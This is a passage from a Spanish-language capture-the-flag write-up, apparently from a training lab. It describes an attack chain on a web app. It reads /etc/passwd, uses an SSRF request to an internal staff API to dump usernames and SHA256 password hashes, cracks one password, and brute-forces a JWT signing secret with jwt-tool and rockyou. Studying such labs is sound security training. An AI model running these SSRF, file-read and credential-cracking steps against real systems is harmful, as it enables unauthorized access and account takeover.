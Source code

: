 {% highlight bash %}
❯ awk '//' /etc/passwd ' /' text
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
...
{% endhighlight %}

Para llegar a abusar de eso necesitamos un JWT y poder crackear su secret para crear otro que pueda ser validado por el servidor.

Si vamos a la ruta staff-details para buscar usuarios a los que podríamos intentar obtener sus contraseñas no vamos a poder porque tenemos asignado un token que no es válido, pero si intentamos a través del SSRF, el sitio nos da la página con los usuarios y con sus contraseñas hasheadas en SHA256.

{% highlight json %}
{"request": "GET /api/store-status?url=%22http:%2F%2F127.0.0.1:3002%2Fapi%2Fstaff-details%2F HTTP/1.1"}

[{"user_id":1,"username":"christine.wool","password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649","fullname":"Christine Wool","role":"Founder, CEO","phone":"0415202922"},{"user_id":2,"username":"christopher.jones","password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1","fullname":"Christopher Jones","role":"Salesperson","phone":"0456980001"},{"user_id":3,"username":"jackson.lightheart","password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436","fullname":"Jackson Lightheart","role":"Salesperson","phone":"0419444111"},{"user_id":4,"username":"bean.hill","password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f","fullname":"Bean Hill","role":"System Administrator","phone":"0432339177"}]
{% endhighlight %}

Intentando crackear hashes, obtenemos el de Cristopher Jones:

`e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123`

Esto ya es suficiente para obtener un JWT e intentar crackear su secret. 

Iniciando sesión con las credenciales que tenemos, se nos asignará un JWT; Lo vamos a copiar y usaremos jwt-tool para intentar obtener su secret

`jwt-tool -C -d /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc3MTAxMzYyfQ.fL8BEvmnSIxr-O_nGwR2ze4Mm08EH8w56dPSkcz1G6c`

La herramienta logra obtenerlo:

{% highlight bash %}
[*] Tested 10 million passwords so far
[*] Tested 11 million passwords so far
[*] Tested 12 million passwords so far
[*] Tested 13 million passwords so far
[+] 123beany123 is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "123beany123"
{% endhighlight %}
